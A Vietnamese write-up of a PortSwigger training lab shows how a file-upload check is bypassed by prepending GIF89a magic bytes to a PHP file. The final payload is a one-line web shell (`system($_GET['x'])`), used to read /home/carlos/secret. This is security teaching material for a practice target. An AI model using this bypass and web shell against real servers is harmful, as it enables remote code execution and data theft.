

## 1. Thông tin bài lab
- Tên lab: **Web shell upload via obfuscated file extension**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.



- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.


**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên _test.php_ với nội dung `<?php phpinfo(); ?>` và upload lên server.
-	Server thông báo file upload không phải là file ảnh hợp lệ

img

- Thử đổi filename thành **test.png** và để `Content-Type: image/png` đồng thời giữ nguyên nội dung -> Server vẫn thông báo file upload không phải là file ảnh hợp lệ.

img

- Có vẻ như server đã kiểm tra nội dung file để xác định xem file upload có phải là file ảnh không?
**Kiểm tra giả thuyết**
- Thử upload file chứa mã PHP và chứa giá trị `GIF89a`, đây là signature(chữ ký định dạng) nằm ở phần đầu tiên của một file ảnh định dạng GIF.

img

- Upload file thành công và mã PHP được thực thi

img
img

## 3. Tiến hành khai thác
- Upload file **shell.php** để thực hiện đọc tệp tin bí mật với nội dung:
```
GIF89a
<?php system($_GET['x']) ?>
```
img
img

- Truyền tham số *'x'* để đọc nội dung tệp tin bí mật `x=cat%20/home/carlos/secret`

img

